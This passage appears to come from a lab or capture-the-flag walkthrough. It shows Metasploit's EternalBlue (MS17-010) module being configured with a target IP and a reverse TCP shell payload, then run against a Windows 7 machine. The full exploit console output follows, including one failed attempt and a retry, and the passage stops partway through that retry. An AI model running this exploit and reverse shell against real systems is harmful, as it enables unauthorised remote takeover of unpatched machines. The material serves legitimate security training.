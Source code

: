 We found a few but we are going to use the first one.

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

Each metasploit's exploit requires some configuration in order to run.  
In this case we set the **RHOSTS** option with the target machine's IP and the **payload**.  
For the payload we use a reverse shell: it's a payload that causes the target machine to initiate a connection to us that gives us a shell to the target machine.

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.205.212
RHOSTS => 10.10.205.212
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

Once we configure it we can run it:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.209.104:4444
[*] 10.10.205.212:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.205.212:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.205.212:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.205.212:445 - The target is vulnerable.
[*] 10.10.205.212:445 - Connecting to target for exploitation.
[+] 10.10.205.212:445 - Connection established for exploitation.
[+] 10.10.205.212:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.205.212:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.205.212:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.205.212:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.205.212:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.205.212:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.205.212:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.205.212:445 - Sending all but last fragment of exploit packet
[*] 10.10.205.212:445 - Starting non-paged pool grooming
[+] 10.10.205.212:445 - Sending SMBv2 buffers
[+] 10.10.205.212:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.205.212:445 - Sending final SMBv2 buffers.
[*] 10.10.205.212:445 - Sending last fragment of exploit packet!
[*] 10.10.205.212:445 - Receiving response from exploit packet
[+] 10.10.205.212:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.205.212:445 - Sending egg to corrupted connection.
[*] 10.10.205.212:445 - Triggering free of corrupted buffer.
[-] 10.10.205.212:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.205.212:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.205.212:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.205.212:445 - Connecting to target for exploitation.
[+] 10.10.205.212:445 - Connection established for exploitation.
[+] 10.10.205.212:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.205.212:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.205.212:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.205.212:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.205.212:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.205.212:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.205.212:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.205.212:445 - Sending all but last fragment of exploit packet
[*] 10.10.205.212:445 - Starting non-paged pool grooming
[+] 10.10.205.212:445 - Sending SMBv2 buffers
```